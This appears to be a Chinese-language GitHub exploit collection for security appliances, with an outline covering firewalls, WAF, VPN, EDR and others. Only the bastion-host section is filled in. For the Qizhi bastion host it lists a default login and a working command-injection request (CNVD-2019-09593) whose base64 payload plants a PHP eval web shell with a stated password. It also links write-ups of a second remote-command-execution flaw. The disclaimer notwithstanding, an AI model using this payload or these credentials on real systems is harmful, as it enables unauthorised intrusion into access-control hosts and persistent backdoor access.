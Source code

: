 # SecDevice - Exploits

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 大纲

* **身份与访问控制**
    * [堡垒机](#堡垒机)

* **网络检测与响应**
    * [IDS](#ids)
    * [网络防火墙](#网络防火墙)
    * [WAF](#waf)
    * [网关](#网关)
    * [负载均衡](#负载均衡)
    * [VPN](#vpn)

* **终端响应与检测**
    * [EDR](#edr)
    * [数据防泄漏系统](#数据防泄漏系统)

---

# 身份与访问控制

## 堡垒机

**齐治堡垒机**
- **默认口令**
    - shterm/shterm

- **齐治堡垒机 ShtermClient-2.1.1 命令执行漏洞**
    - [齐治堡垒机ShtermClient-2.1.1命令执行漏洞（CNVD-2019-09593）分析](https://www.cnblogs.com/StudyCat/p/11201725.html)
        ```
        http://10.20.10.11/listener/cluster_manage.php
        https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash`|${IFS}|echo${IFS}
        /var/www/shterm/resources/qrcode/lbj77.php  密码10086
        ```

- **CNVD-2019-20835 齐治堡垒机前台远程命令执行漏洞**
    - [齐治堡垒机前台远程命令执行漏洞（CNVD-2019-20835）分析](https://www.cnblogs.com/StudyCat/p/11256944.html)
